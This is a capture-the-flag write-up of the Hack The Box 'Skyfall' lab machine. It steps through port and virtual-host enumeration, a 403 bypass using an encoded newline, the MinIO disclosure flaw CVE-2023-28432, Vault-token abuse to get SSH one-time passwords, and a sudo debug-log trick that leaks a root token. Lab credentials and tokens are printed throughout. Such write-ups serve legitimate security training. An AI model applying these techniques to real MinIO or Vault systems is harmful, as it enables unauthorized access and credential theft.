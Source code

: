 ```yaml
---
title: HTB Skyfall Writeup
author: Elus1nist
layout: post
date: 12 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/e43c6cdfe71e56188e5c2c4f39f5c180.png
---
```

Welcome! This is my writeup of the new Season 4 Insane machine from HTB, Skyfall. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -F -Pn -oN initial_scan 10.10.11.254
```
This gives us the scan results of:

```
Nmap scan report for 10.10.11.254
Host is up (0.062s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 65:70:f7:12:47:07:3a:88:8e:27:e9:cb:44:5d:10:fb (ECDSA)
|_  256 74:48:33:07:b7:88:9d:32:0e:3b:ec:16:aa:b4:c8:fe (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Skyfall - Introducing Sky Storage!
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

We can see a singular open HTTP port. Not much to go o but good enough, added the virtual host `skyfall.htb` to the `/etc/hosts` file

---
---
## VHost Fuzzing

Knowing HackTheBox one of the first things I try with Web Servers is some Virtual Host Fuzzing

```sh
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://skyfall.htb/ -H Host: FUZZ.skyfall.htb -fs xxx
```

This shows us a possible virtual host of `demo.skyfall.htb`, added this to the `/etc/hosts` file

---
---
## Webpage Enumeration

Visiting the webpage we encounter:
<img src="{{- 'writeup_images/Skyfall/AlternateVHost_Webpage.png' | relative_url}}" >

As suggested, we can login using the credentials `guest : guest`
<img src="{{- 'writeup_images/Skyfall/LoginTo_Demo.png' | relative_url}}" >

---
---
## Bypassing 403 Unauthorized

Wen investigating the web page, I found multiple endpoints. The only endpoint with a `403` code returned was the `/metrics`. Using some auth bypass mechanisms I was finally able to view the page with `http://demo.skyfall.htb/metrics%0a`

<img src="{{- 'writeup_images/Skyfall/Metrics_authBypass.png' | relative_url}}" >

This leaked an important detail - The minio endpoint url
<img src="{{- 'writeup_images/Skyfall/minio_leak.png' | relative_url}}" >

Adding this to `/etc/hosts` file we can access the webpage and the Minio endpoint -
<img src="{{- 'writeup_images/Skyfall/Accessing_MinIO.png' | relative_url}}" >

---
---
## Exploiting Minio

When reading up on Minio public exploits we encounter `CVE-2023-28432`. This is an information disclosure vulnerability. To trigger visit the url endpoint `/minio/bootstrap/v1/verify` and the site returns the following minio setings:

```
"MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww"
"MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0"
"MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"
```

Now that we have some data to interact with minio we download the `mc` client (using the docs found [here](ttps://min.io/docs/minio/linux/reference/minio-mc.html)) and use as follows:

```
1) Set alias for minio access
mc set alias testminio_creds http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0

2) List resources from minio
mc ls --recursive --versions testminio_creds
```
<img src="{{- 'writeup_images/Skyfall/Minimo_enumeration.png' | relative_url}}" >

```
3) The most important resource is the 3 versions of home_backup.tar.gz. Lets download all 3 versions
mc cp --vid <version_id> myminio/askyy/home_backup.tar.gz ./down.tar.gz
```
One of these zip files leaks the ssh vault by hashicrop is being used

```sh
export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
```

---
---
## Logging in to ssh vault

#### Step 1: Login to vault
```sh
./vault login
```

#### Step 2: Create OTP Key role
```sh
curl --header "X-Vault-Token: $VAULT_TOKEN" --request POST --data '{"ip":"10.10.11.254", "username":"askyy"}' http://prd23-vault-internal.skyfall.htb/v1/ssh/creds/dev_otp_key_role

{
  "request_id": "b119e3d6-15e9-043e-cae2-79183c8700a7",
  "lease_id": "ssh/creds/dev_otp_key_role/xPVWouo7sCaikISm4PysqLMm",
  "renewable": false,
  "lease_duration": 2764800,
  "data": {
    "ip": "10.10.11.254",
    "key": "ef02d28f-e83b-ab0f-cba1-3031439d9599",
    "key_type": "otp",
    "port": 22,
    "username": "askyy"
  },
  "wrap_info": null,
  "warnings": null,
  "auth": null
}
```

#### Step 3: Login to SSH via vault using OTP role
```sh
./vault ssh -role dev_otp_key_role -mode otp askyy@10.10.11.254
```

GIVES US USER FLAG!

---
---
## Privilege Escalation

First we check what sudo permissions our `askyy` user has:

```sh
askyy@skyfall:~$ sudo -l
Matching Defaults entries for askyy on skyfall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml [-vhd]*
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```

As we can see, the user has the ability to run the vault-unseal command as root. Now running it we can see what it is doing:

```
sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v

[-] Master token found in config: ************
[>] Enable "debug" mode for more details
```

So lets do just that, enabling debug mode would mean providing a file named debug.log.

### 1) Setup debug file and make it owned by askyy
```
touch debug.log
chown askyy:askyy debug.log
```
### 2) Run unseal in debug mode, capturing the Master token
```
sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v -d debug.log
cat debug.log
<Gives us the Master token>
``` 

We can now use this token to login with vault and ssh as done above

---
---
## SSH as root

#### Step 1: Login to vault
```sh
./vault login
```

#### Step 2: Create OTP Key role for admin
```sh
curl --header "X-Vault-Token: $VAULT_TOKEN" --request POST --data '{"ip":"10.10.11.254", "username":"root"}' http://prd23-vault-internal.skyfall.htb/v1/ssh/creds/admin_otp_key_role
```

#### Step 3: Login to SSH via vault using OTP role
```sh
./vault ssh -role admin_otp_key_role -mode otp root@10.10.11.254
```

GIVES US ROOT FLAG!
